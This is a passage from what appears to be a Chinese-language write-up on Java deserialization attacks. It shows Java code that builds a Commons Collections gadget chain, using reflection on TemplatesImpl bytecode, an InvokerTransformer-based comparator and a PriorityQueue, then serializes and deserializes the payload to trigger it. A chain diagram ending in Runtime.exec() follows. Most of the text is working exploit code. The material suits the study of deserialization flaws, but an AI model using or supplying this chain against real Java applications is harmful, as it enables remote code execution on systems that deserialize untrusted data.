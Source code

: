 ```java
        Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
        field.setAccessible(true);//暴力反射
        field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

        Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
        field1.setAccessible(true);//暴力反射
        field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test

        InvokerTransformer transformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象
        PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
        queue.add(1);//添加数字1插入此优先级队列
        queue.add(2);//添加数字1插入此优先级队列

        Field field2=queue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
        field2.setAccessible(true);//暴力反射
        field2.set(queue,comparator);//设置queue的comparator字段值为comparator

        Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
        field3.setAccessible(true);//暴力反射
        field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        outputStream.writeObject(queue);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.out"));
        inputStream.readObject();
    }
}
```

### Exp构造分析

#### 利用链展示

```java
Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
```
